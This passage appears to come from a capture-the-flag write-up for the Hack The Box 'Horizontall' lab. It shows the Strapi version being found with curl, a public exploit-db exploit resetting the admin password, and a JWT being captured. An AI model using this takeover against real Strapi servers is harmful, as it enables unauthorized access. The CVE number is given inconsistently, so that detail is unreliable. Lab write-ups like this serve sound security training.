 ### Web content discovery
Visiting any site of interest that given in the Gobuster output, we realize that we will be redirected to ```/admin/auth/login``` endpoint, which is a Strapi admin login page.

![Strapi Admin login page](https://github.com/joelczk/writeups/blob/main/HTB/Images/horizontall/strapi_admin.PNG)

Next, we will need to find the version of Strapi used. This can be found by calling a curl command to ```/admin/strapiVersion```

```
┌──(kali㉿kali)-[~]
└─$ curl http://api-prod.horizontall.htb/admin/strapiVersion
{"strapiVersion":"3.0.0-beta.17.4"}  
```

## Exploit
### CVE-2019-11818
After some research, we realize that this version of strapi is vulnerable to CVE-2019-11818 and we can obtain an exploit code for it [here](https://www.exploit-db.com/exploits/50237). All we have to do is to modify the URL in the exploit code.
After a few guesses, we managed to guess that the admin email for the website is ```admin@horizontall.htb```, and manage to reset the password for the email
```
┌──(kali㉿kali)-[~/Desktop/cve/CVE-2019-18818]
└─$ python3 exploit.py                                                              2 ⚙
[*] strapi version: 3.0.0-beta.17.4
[*] Password reset for user: admin@horizontall.htb
[*] Setting new password
[+] New password 'password' set for user admin@horizontall.htb
```

Capturing the request when we logint to the admin page, we are able to discover that the endpoint ```/admin/auth/local``` will reveal the jwt token in this response.

![JWT token captured from Burp](https://github.com/joelczk/writeups/blob/main/HTB/Images/horizontall/jwt_burp.PNG)
